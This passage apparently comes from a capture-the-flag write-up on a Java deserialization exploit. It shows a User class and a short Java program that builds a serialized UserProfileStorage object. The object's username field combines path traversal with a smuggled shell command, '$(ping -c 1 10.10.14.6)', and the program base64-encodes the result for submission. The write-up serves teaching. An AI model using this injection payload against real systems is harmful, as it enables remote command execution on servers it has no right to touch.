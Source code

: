 To create a `UserProfileStorage`, I first need a `User`. The `@AllArgsConstructor` means that there is a constructor which sets all the args in the order they show up (from `User.java`):

```

@AllArgsConstructor
@NoArgsConstructor
@Data
public class User implements Serializable {
    private static final long serialVersionUID = -7780857363453462165L;

    protected int id;

    protected String username;

    protected String password;

    protected String fingerprint;

```

I’ll create a user, not worrying about the `password` or `fingerprint`, and then base64 encode it and print it:

```

package com.admin.security.src;

import com.admin.security.src.model.User;
import com.admin.security.src.model.Profile;
import com.admin.security.src.profile.UserProfileStorage;
import com.admin.security.src.utils.SerUtils;
import com.admin.security.src.utils.FileUtil;
import java.util.ArrayList;
import java.util.Base64;
import java.io.File;
import java.io.IOException;

public class App {
    public static void main( String[] args ) throws IOException {
        Profile profile = new Profile(new ArrayList<>(), true);
        FileUtil.write(SerUtils.toByteArray(profile), new File("./0xdf.ser"));

        User user = new User(223, "../../../../$(ping -c 1 10.10.14.6)/../../../data/uploads/0xdf", "", "");
        UserProfileStorage ups = new UserProfileStorage(user);
        System.out.println(Base64.getEncoder().encodeToString(SerUtils.toByteArray(ups)));
    }
}

```

I’ll package it, and then run:
